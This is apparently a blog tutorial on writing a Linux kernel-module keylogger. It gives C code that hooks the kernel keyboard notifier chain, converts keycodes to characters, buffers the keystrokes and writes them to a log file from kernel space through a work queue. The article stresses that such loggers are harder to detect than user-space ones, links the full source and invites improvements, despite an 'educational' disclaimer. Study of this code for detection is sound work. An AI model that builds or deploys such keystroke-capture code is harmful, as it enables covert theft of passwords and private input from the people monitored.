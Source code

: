 # linux-kernel-examples
Linux kernel programming examples


Developing a Linux Kernel Module Keylogger
Emanuele Santini

Emanuele Santini
·

Follow
5 min read
·
Mar 19, 2024

Is it easy to enable a keylogger on Linux?

A keylogger is a type of software or hardware device that records the keystrokes typed on a computer or other electronic device. This can include letters, numbers, symbols, and special keys like Enter or Backspace. Keyloggers are often used for monitoring user activity, both for legitimate purposes such as parental control or employee monitoring, as well as for malicious purposes such as stealing sensitive information like passwords or credit card numbers.

There are various solutions available for creating a keylogger on Linux. Many of them can operate without requiring root permissions, but they often come with limitations or rely on intercepting X11 input system events, running atop the window manager.
Here, I want to introduce a Keylogger that operates within the Linux Kernel, created using a basic module. Kernel Module Keyloggers offer several advantages; They are independent from the Window Manager and operate at a lower level of the operating system, making them harder to detect compared to user-space keyloggers.

The purpose of this article is purely educational and does not intend to encourage any malicious behavior. Understanding how a Kernel Keylogger works could help you to detect if on your system runs a malware like this.
Additionally, this article will walk you through understanding concepts such as how input system events operate in the Linux Kernel, utilizing the work queue to execute deferrable functions, and writing files directly from the kernel.

On my GitHub you can check the kernel keylogger solution that I am discussing:
https://github.com/emalele1688/linux-kernel-examples/tree/main/kernelKeyLogger.
Here, I aim to demonstrate the principles behind how I developed this kernel module, without providing a detailed explanation of each code line. And the code shows here will be only an example. For the complete module code, please refer to my GitHub repository.
The Linux Input Subsystem

The Linux Input subsystem is a framework within the Linux kernel responsible for managing input devices such as keyboards, mice, touchscreens, game controllers, and more. Its primary role is to handle the flow of input events generated by these devices and to deliver them to user-space applications for processing.

The Input Subsystem API is documented here.

Here’s an overview of how the Linux Input subsystem works:

    Device Drivers: The subsystem interacts with device drivers that are responsible for communicating with hardware input devices. These drivers provide an interface for the kernel to receive input events from the hardware. Here an example on how to create an Input device driver.
    Event Handling: When a user interacts with an input device (e.g., pressing a key on a keyboard or moving a mouse), the corresponding device driver generates an input event. These events are then passed to the Input subsystem for processing.
    Notification chain: Key events are sent to the Keyboard notifier, which is a Notification Chain responsible for dispatching keyboard events to all registered callbacks.

An efficient kernel keylogger could register a callback on the Keyboard notifier system to retrieve input events. This can be easily implemented within a kernel module:

static int __init k_key_logger_init(void)
{
  struct keyboard_logger keyboard_notifier;
  keyboard_notifier.notifier_call = keyboard_callback;
  register_keyboard_notifier(&keyboard_notifier);
  
  return 0; 
}

Where the keyboard_callback is a function that we will handle the keyboard input events. We could implement the keyboard_callback like this:

#define TMP_BUFF_SIZE 16 // Choose an arbitrary value for the temp buffer. 16 Bytes will be enough

int keyboard_callback(struct notifier_block *kblock, unsigned long action, void *data)
{
  char tmp_buff[TMP_BUFF_SIZE];
  memset(tmp_buff, 0x0, TMP_BUFF_SIZE);

  struct keyboard_notifier_param *key_param = (struct keyboard_notifier_param *)data;
  size_t keystr_len = keycode_to_us_string(key_param->value, key_param->shift, tmp_buff, TMP_BUFF_SIZE);
  
  if(keystr_len > 1)
    printk("%s\n", tmp_buff);

  return NOTIFY_OK;
}

This example callback will print the keystrokes entered by the user. Each time a key on the keyboard is pressed and released, this callback will print the corresponding key.
The event data is encapsulated into a struct keyboard_notifier_param type, that contains the following field:

struct keyboard_notifier_param {
	struct vc_data *vc;	/* VC on which the keyboard press was done */
	int down;		/* Pressure of the key? */
	int shift;		/* Current shift mask */
	int ledstate;		/* Current led state */
	unsigned int value;	/* keycode, unicode value or keysym */
};

And it is implemented here.

The function keycode_to_us_string will convert the Unicode integer value of the symbol key (contained in the value field of the previous struct) to a human-readable character representing the pressed key. Check the code to see how it works.

In the Kernel Keylogger code you’ll find the keyboard_callbackfunction implemented similarly to the one we’ve just demonstrated. The key difference is how we handle keystrokes: instead of printing them with printk, we plan to write them to a file.
Writing the keystroke to a file

The keyboard notification chain operates within an atomic context. This implies that the keyboard_callback function is executed as an interrupt. Sleepable operations, such as writing to a text file, are not permitted within an interrupt context because they are not schedulable entities.
Writing into a file is a slow operation that couldn’t be executed in a interrupt context, so, if we want to write the input keystrokes received by the keyboard_callback function to a file we need to create a kernel process, using the Work Queue. Here you’ll find more about the Work Queue.

In my Keyboard Logger code you’ll find the following code for work task initialization:



static int __init keyboard_logger_init(void)
{
  // .....

  INIT_WORK(&klogger->writer_task, &write_log_task);

  // .....
}

We are setting up a work task, that we can start each time we want, using the kernel function schedule_work(&klogger->writer_task). This work is the writer task.
We are calling the schedule_workon the flush_buffer method:

void flush_buffer(struct keyboard_logger *klogger)
{
    // Swap the buffer
    char *tmp = klogger->keyboard_buffer;
    klogger->keyboard_buffer = klogger->write_buffer;
    klogger->write_buffer = tmp;
    klogger->buffer_len = klogger->buffer_offset;
    
    // Start to write the buffer to the log file
    schedule_work(&klogger->writer_task);
    
    // Reset the keyboard buffer
    memset(klogger->keyboard_buffer, 0x0, MAX_BUFFER_SIZE);
    klogger->buffer_offset = 0;
}

The purpose of the flush_buffer function is straightforward: we aim to switch the buffer used by the keyboard_callback, where keystrokes are being written, with the one being read by the writer_task to write to the file.

The writer task will write the keystroke to the specific file:

void write_log_task(struct work_struct *work)
{
    struct keyboard_logger *klogger;

    klogger = container_of(work, struct keyboard_logger, writer_task);
    
    kernel_write(klogger->log_file, klogger->write_buffer, klogger->buffer_len, &klogger->file_off);
}

The kernel_write function is used for writing a file in Kernel Space. Be careful to use it!
Conclusion

The main focus of the article was to discuss my kernel keylogger solution. If you have any ideas on how to enhance my code, feel free to share them with me, and remember to read the code on my GitHub repository.
